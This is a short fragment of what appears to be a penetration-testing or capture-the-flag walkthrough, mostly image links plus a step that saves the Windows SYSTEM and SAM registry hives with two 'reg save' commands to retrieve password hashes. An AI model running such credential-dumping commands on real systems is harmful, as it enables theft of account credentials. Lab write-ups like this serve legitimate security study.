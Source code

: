 ![](attachments/20240516095119.png)

![](attachments/20240516095233.png)

Next up is to extract `SYSTEM` and `SAM` to retrieve hashes

![](attachments/20240516095301.png)

```powershell
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

![](attachments/20240516095349.png)
